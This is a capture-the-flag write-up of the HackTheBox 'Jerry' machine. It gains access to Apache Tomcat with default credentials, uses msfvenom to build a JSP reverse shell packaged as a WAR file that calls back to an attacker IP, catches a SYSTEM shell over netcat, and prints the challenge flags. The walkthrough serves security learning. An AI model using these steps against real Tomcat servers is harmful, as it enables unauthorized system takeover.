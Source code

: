 ```yaml
---
title: Jerry Machine Writeup- HackTheBox
date: 2020-12-3 10:30:00
excerpt: A retired windows box from HackTheBox, owned by abusing default password in Apache Tomcat installation and
         deploying a war package.
thumbnail: /assets/images/posts/Jerry/info.png
categories:
- HTB
- Writeup
- Machine
tags:
- Windows
- Apache Tomcat
- war deployment
- without metasploit
---
```


![Info](/assets/images/posts/Jerry/info.png)

# Methodology
1. Open Ports Enumeration
2. Web Service Enumeration
3. Default credentials identified
4. Reverse shell deployed as 'war' package
5. Foothold gained as SYSTEM user

# Lessons Learned
1. Identifying Apache Tomcat default credentials
2. Deploying reverse shell as war package

# Open Ports Enumeration
The open ports enumeration through targetRecon[^fn1], had identified only one open port, web service, **HTTP** (8080). 
The scan had not identified any known vulnerabilities through vulnerability scan. The results of the scan are given 
below.
``` 
~/HTB/Tracks/Beginner/Jerry/ targetRecon 10.10.10.95
[+] Open Ports Scan
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
		8080    http-proxy
[+] Scripts Scan
				 nmap -sV -A --script=default,vuln -p 8080 10.10.10.95
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.

Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-03 15:35 IST
Nmap scan report for 10.10.10.95 (10.10.10.95)
Host is up (0.22s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-enum: 
|   /examples/: Sample scripts
|   /manager/html/upload: Apache Tomcat (401 Unauthorized)
|   /manager/html: Apache Tomcat (401 Unauthorized)
|_  /docs/: Potentially interesting folder
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
|_      http://ha.ckers.org/slowloris/
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-title: Apache Tomcat/7.0.88

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 563.19 seconds

[+] Summary 
8080    http-proxy      Apache Tomcat/Coyote JSP engine 1.1
				No vuln found
```

# Web Service Enumeration
Browsing to [http://10.10.10.95:8080](http://10.10.10.95:8080) revealed an *Apache Tomcat* installation, with a link to 
[Manager App](http://10.10.10.95:8080/manager/html). The error page, received after attempting multiple wrong 
credentials revealed the default credentials **tomcat:s3cret**. The same is shown on the image given below.

![Default Credentials](/assets/images/posts/Jerry/manager.png)

# Foothold
Using the default credentials gave access to the **Admin Panel** of Apache Tomcat installation. A *reverse shell*, as a
**war package** was then generated using **msfvenom** as shown on the following command.
```shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.3 LPORT=9095 -f war > revShell.war
```
The *war* package was then uploaded through the admin panel. A *netcat* listener on port 9095 was initiated, and the 
reverse shell was triggered by visiting [http://10.10.10.95:8080/revShell/](http://10.10.10.95:8080/revShell/). This 
resulted in a shell, as a **SYSTEM** user being caught on the listener. The same is shown on the section given below.
```shell
b4bygroot@arcolinux:~/HTB/Tracks/Beginner/Jerry % nc -nvlp 9095                                                                           
Connection from 10.10.10.95:49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system


b4bygroot@arcolinux:~/HTB/Tracks/Beginner/Jerry % nc -nvlp 9095
Connection from 10.10.10.95:49195
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>cd C:\Users\Administrator\Desktop\flags
cd C:\Users\Administrator\Desktop\flags

C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"
type "2 for the price of 1.txt"
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
```
![SYSTEM Shell](/assets/images/posts/Jerry/flags.png)

# System Owned
![System Owned](/assets/images/posts/Jerry/systemown.png)

# Resources
[^fn1]:[targetRecon](https://github.com/b4bygroot/TargetRecon)